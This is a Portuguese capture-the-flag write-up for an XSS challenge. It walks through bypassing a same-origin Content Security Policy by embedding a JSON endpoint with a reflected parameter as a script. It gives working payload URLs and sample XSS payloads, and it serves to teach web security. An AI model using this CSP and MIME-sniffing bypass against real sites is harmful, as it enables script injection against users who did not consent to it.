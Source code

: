 ### Resolução do desafio sniffing

1. Acessamos o endereço do desafio: https://bountyleaks.cf/challenge/sniffing.php
2. Um redirecionamento é feito para https://bountyleaks.cf/challenge/sniffing.php?message=You%20was%20successfully%20logged%20out
3. Se alterarmos o texto, inclusive com tags html, vemos que ela é refletida na página:
[https://bountyleaks.cf/challenge/sniffing.php?message=<button>Teste</teste>](https://bountyleaks.cf/challenge/sniffing.php?message=&lt;button&gt;Teste&lt;/teste&gt;)
4. Mas, se tentarmos triggar um XSS com ```<script>alert(document.domain)</script>``` o alerta não é triggado. Por quê?

4.1 Para entender essa questão, acesse [https://bountyleaks.cf/challenge/sniffing.php?message=<script>alert(document.domain)</script>](https://bountyleaks.cf/challenge/sniffing.php?message=%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E) e abra o console do navegador, apertando ctrl + shit + i e clicando na aba console

4.2 Observe o erro retornado pelo navegador devido à tentativa de execução de script nessa página:
```
Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'self' sha256-Cn8Hzq+wmgPb5X2xqCqolSgXTEGPQNOsUufW22rF2Pg='". Either the 'unsafe-inline' keyword, a hash ('sha256-X6WoVv8sUlFXk0r+MI/R+p2PsbD1k74Z+jLIpYAjIgE='), or a nonce 'nonce-...') is required to enable inline execution.
```

4.3 O erro relata que o script não foi possível executar devido à política CSP vigente nessa aplicação.
O que faz sentido, pois ao vermos o código fonte da página, vemos o CSP declarado começando assim:
```
<meta http-equiv="Content-Security-Policy" content="base-uri 'self'; default-src 'self'; script-src 'self'>
```

4.4 Repare que na parte de scripts, somente existe o valor 'self', ou seja, caso formos inserir qualquer <script src='url'> a url obrigatoriamente precisa ter a mesma origem do site acessado, devido ao parâmetro "self" (portanto bountyleaks.cf)

4.5 Outra observação interessante é que não existe o valor unsafe-inline, desse forma qualquer xss inline não será executado pois não foi de forma descrita liberado.
XSS como ```<script>alert(1)</script>```, ```<img src=x onerror=alert()>``` não serão executados, exibindo erro de CSP no console tambem.

  5. Sabemos então, que com o atual contexto, não conseguiremos triggar um xss usando o parâmetro message  (https://bountyleaks.cf/challenge/sniffing.php?message=)
6. Olhando mais o site, vemos que um script é importado de uma outra página:
```<script src='/version.php'></script>```
7. Você entende agora por que esse script não é bloqueado pelo CSP? 
  A resposta é que este script atende ao requisito do CSP, uma vez que se encaixa no contexto 'self', sendo de mesma origem, pois seu endereço é [https://bountyleaks.cf/challenge/version.php](https://bountyleaks.cf/challenge/version.php)
8. Ao abrirmos a página version.php vimos a principio um JS.
9.  Caso façamos um fuzzing de parametros nessa página (https://bountyleaks.cf/challenge/version.php?FUZZ=teste), descobrimos que existe um parametro que reflete na página: version
10. Portanto, [https://bountyleaks.cf/challenge/version.php?version=<script>alert(1337)</script>](https://bountyleaks.cf/challenge/version.php?version=<script>alert(1337)</script>), refletirá na página o payload
11. Pronto, achamos um XSS nessa página? Hm, também não. Por quê? Por que a página se você ver a resposta da página, verá que ela possui content-type application/json. Dessa forma, o conteúdo da página não está sendo tratado como um javascript, ou como html. O navegador não irá renderizar tags a fim de criar um alerta.
12. Agora chega o momento que devemos pensar que :
- Temos a página sniffing com o parametro message sendo refletido, podendo injetar html, mas o CSP exige que a tag script tenha mesma origem no parametro src
- Temos uma página (de mesma origem) que reflete o conteudo de um parâmetro, mas seu content-type é application/json
13. Dessa forma, podemos incluir a segunda página na primeira (embedding), usando a tag <script>.
  
13.1 Vamos primeiro fazer uma modificação na segunda página para vocês verem que será refletida na primeira:
```https://bountyleaks.cf/challenge/version.php?version=123%27,%27teste%27:%271```

Veja que criamos uma nova chave e valor no JSON da página, chamado teste

13.2 Agora, vamos incluir essa URL na primeira página, ficando assim:
```https://bountyleaks.cf/challenge/sniffing.php?message=<script%20src=%27https://bountyleaks.cf/challenge/version.php?version=123%2527,%2527teste%2527:%25271337%27></script><!--```

- Nesta URL fizemos algumas modificações:
Alteramos a aspas simples (%27) para double encoding (%2527), não para bypassar algo, mas se você visse no código fonte, veria que caso não o fizessemos, quebraria a estrutura da pagina
- A fim de demonstrar o cenário refletido, acrescemos um <!-- ao final, o que comentará todo o resto da página (desabilitando suas execuções posteriores). A explicação é que estamos incluindo a página /version.php dentro de um script, com argumentos nossos.
Mas logo a baixo, existe um outro <script src='version.php'> (nativo da página). Isto sobrescreveria nossos valores, e no momento quero mostrar para vocês que os valores estão refletindo, antes de triggar o XSS.

13.3 Após acessar a URL do item 13.2, abrimos o console do navegador e digitamos app.teste
Veja que o valor 1337 é retornado

13.4 Conseguimos incluir um script arbitrário! Agora só falta modificá-lo para ser um xss!

14. Sabendo que a chave pra resolver o desafio é manipular a segunda página para quando for processada pela primeira em formato de Javascript, vamos criar a segunda URL dessa forma:

```
https://bountyleaks.cf/challenge/version.php?version=123%27};alert(document.domain)//
```

E incluiremos na primeira página, ficando dessa forma:

```
https://bountyleaks.cf/challenge/sniffing.php?message=<script%20src=%27https://bountyleaks.cf/challenge/version.php?version=123%2527};alert(document.domain)//%27></script>
```

15. Desafio resolvido \o/

Você acaba de bypassar duas convicções dos desenvolvedores:

que o CSP da primeira página por ser de mesma origem é seguro e que usando o content-type application/json nunca abre margem para um xss (aqui usamos uma tecnica chamada content sniffing ou mime sniffing)

